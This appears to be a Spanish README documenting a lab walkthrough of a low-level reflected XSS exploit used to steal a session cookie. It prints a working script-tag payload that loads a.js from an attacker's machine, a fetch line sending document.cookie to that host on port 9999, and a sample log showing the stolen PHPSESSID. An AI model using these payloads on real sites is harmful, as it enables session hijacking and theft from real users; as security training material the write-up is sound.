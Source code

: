 # Explotación de Vulnerabilidad XSS para Robo de Cookies (Nivel Bajo)

## Descripción

Este repositorio documenta un ejercicio práctico de explotación de una vulnerabilidad de Cross-Site Scripting (XSS) de tipo reflejado de nivel bajo. El objetivo principal es demostrar cómo un atacante puede inyectar código JavaScript malicioso en una página web vulnerable para robar la cookie de sesión de un usuario autenticado.

## Herramientas Necesarias

* **Servidor Web Temporal:** Necesario para recibir la cookie robada. Se puede utilizar un servidor simple como `netcat` o un servidor HTTP más completo como `SimpleHTTPServer` de Python.
* **Navegador Web:** Para interactuar con la página web vulnerable e inyectar el payload.

## Pasos para la Explotación

1.  **Identificar el Punto de Inyección:**
    * Se identificó un formulario web con un campo de entrada de texto.
    * Al ingresar un nombre y hacer clic en "Submit", la aplicación muestra un saludo como "Hello [nombre_ingresado]". Esto indica que la entrada del usuario se refleja en la página sin un saneamiento adecuado, lo que sugiere una posible vulnerabilidad XSS.

2.  **Verificar la Posibilidad de Inyección de JavaScript:**
    * Se inyectó el siguiente payload en el campo del formulario:
        ```html
        <script>alert('¡XSS!');</script>
        ```
![imagen vulnerabilidad 1](../../assets/XSSReflectedLow01.png)

    * Al hacer clic en "Submit", la aparición de una ventana de alerta con el texto "¡XSS!" confirmó la capacidad de ejecutar código JavaScript en la página.

![imagen vulnerabilidad 2](../../assets/XSSReflectedLow02.png)

3.  **Preparar el Payload para Robo de Cookies:**
    * Se preparó un payload para enviar la cookie al servidor web temporal. Se asumió que el servidor web está corriendo y escuchando en el puerto `9999`.
    * Se inyectó el siguiente payload en el campo del formulario, reemplazando `[tu_Kali_IP]` con la dirección IP de la máquina donde se ejecuta el servidor web temporal:
        ```html
        <script src="http://[tu_Kali_IP]:9999/a.js"></script>
        ```
    * Se creó un archivo llamado `a.js` en el servidor web temporal con el siguiente código JavaScript (asegurándose de reemplazar `[tu_Kali_IP]` con la dirección IP correcta):
        ```javascript
        fetch('http://[tu_Kali_IP]:9999/?cookie=' + document.cookie);
        ```

4.  **Enviar el Payload:**
    * Se hizo clic en el botón "Submit" del formulario con el payload inyectado.

5.  **Verificar la Inyección en el Código Fuente (Opcional pero Recomendado):**
    * Se inspeccionó el código fuente de la página resultante para confirmar que el payload `<script src="http://[tu_Kali_IP]:9999/a.js"></script>` se había insertado correctamente en el HTML.

6.  **Analizar los Logs del Servidor Web Temporal:**
    * Se revisaron los logs del servidor web temporal. Se esperaba una petición `GET` entrante a la ruta `/` con un parámetro `cookie` en la URL.
    * Un ejemplo de una entrada en el log esperada es:
        ```
        [IP_del_usuario] - - [fecha_y_hora] "GET /?cookie=PHPSESSID=valor_de_la_cookie; otra_cookie=otro_valor HTTP/1.1" 404 - "-" "Mozilla/5.0 ..."
        ```
    * La cookie robada (por ejemplo, `PHPSESSID`) estaría visible en los logs del servidor.

![imagen vulnerabilidad 3](../../assets/XSSReflectedLow03.png)

## Resultado

La explotación exitosa de la vulnerabilidad XSS permitió robar la cookie de un usuario que visitó la página con el payload inyectado. Esta cookie podría potencialmente ser utilizada por un atacante para secuestrar la sesión del usuario si no está debidamente protegida (por ejemplo, con `HttpOnly` flag).